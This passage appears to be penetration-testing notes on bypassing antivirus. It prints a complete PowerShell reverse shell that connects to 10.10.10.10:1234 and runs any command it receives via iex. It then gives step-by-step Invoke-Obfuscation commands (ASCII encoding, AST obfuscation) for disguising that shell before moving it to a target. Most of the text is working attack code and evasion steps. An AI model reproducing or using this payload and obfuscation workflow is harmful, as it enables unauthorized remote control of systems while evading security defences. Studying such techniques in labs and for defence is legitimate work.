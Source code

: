 ```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Save it to /home/kali/Desktop/AVBypass/shell.ps1.

What do we do with Invoke-Obfuscate? How do we load that file?

```
Invoke-Obfuscation> SET SCRIPTPATH /home/kali/Desktop/AVBypass/shell.ps1
```

If I wanted to encode my PowerShell code, 

```
Invoke-Obfuscation> ENCODING
```

```
Invoke-Obfuscation\Encoding> 1
```

It'll output the PowerShell code that has now been encoded in ASCII. So I can then copy that and save it in a new PowerShell script, and then transfer that over to the target.

Open up the documentation: 

```
Invoke-Obfuscation\Encoding> help
```

Reset all obfuscation.

```
Invoke-Obfuscation\Encoding> RESET
```

Take a step back.

```
Invoke-Obfuscation\Encoding> BACK
```

Set the script path.

```
Invoke-Obfuscation> SET SCRIPTPATH /home/kali/Desktop/AVBypass/shell.ps1
```

Obfuscate PowerShell Ast nodes.

```
Invoke-Obfuscation> AST
```

Use the ALL options. This will select all the choices from the above. So it's going to obfuscate all of the various PowerShell AST nodes.
